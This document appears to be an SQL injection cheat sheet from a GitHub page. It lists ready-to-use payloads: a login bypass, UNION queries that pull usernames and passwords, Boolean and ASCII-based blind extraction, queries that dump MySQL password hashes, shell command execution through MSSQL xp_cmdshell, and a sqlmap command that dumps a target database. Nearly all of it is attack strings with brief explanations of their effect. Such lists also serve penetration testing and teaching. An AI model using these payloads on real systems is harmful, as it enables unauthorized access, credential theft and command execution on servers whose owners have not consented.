 General SQL Injection Queries

    Basic Authentication Bypass

    sql
    ' OR '1'='1' --

This query can be used to bypass login forms by manipulating the SQL statement to always return true.
Union-Based SQL Injection

sql
' UNION SELECT username, password FROM users --

This query attempts to extract usernames and passwords from a users table by appending a UNION statement to the original query.
Extracting Database Version

sql
SELECT @@version;

This query retrieves the version of the database server.
Listing Databases

sql
SHOW DATABASES;

This command lists all databases on the server.
List Tables in a Database

sql
USE <database_name>; SHOW TABLES;

Replace <database_name> with the target database to see all tables within it.
Retrieve Column Names from a Table

sql
SELECT column_name FROM information_schema.columns WHERE table_name='<table_name>';

This query fetches all column names from a specified table.
Extracting User Information

sql
SELECT username, password FROM users;

    This query directly retrieves usernames and hashed passwords from the users table.

Error-Based SQL Injection Queries

    Boolean-Based Blind SQL Injection

    sql
    ' AND 1=1 -- 
    ' AND 1=2 -- 

These queries test the application's response to determine if the SQL injection is successful based on true or false conditions.
Extracting Data with ASCII

sql
SELECT ID, Username, Email FROM [User] WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects),1,1)),0)>89--

    This query can be used to extract data character by character based on ASCII values.

Specific Database Queries
MySQL Specific Queries

    List Users

    sql
    SELECT user FROM mysql.user; -- (requires privileges)

List Password Hashes

sql
SELECT host, user, password FROM mysql.user; -- (requires privileges)

MSSQL Specific Queries

    Execute Command via xp_cmdshell

    sql
    EXEC xp_cmdshell('whoami');

This command executes a shell command on the server.
Extracting Juicy Information

sql
SELECT * FROM sys.tables;
SELECT * FROM sys.columns WHERE object_id = OBJECT_ID('<table_name>');

Tools for SQL Injection Testing

    sqlmap: A powerful tool that automates the process of detecting and exploiting SQL injection vulnerabilities. Example command:

    bash
    sqlmap -u "http://example.com/vulnerable.php?id=1" --dump
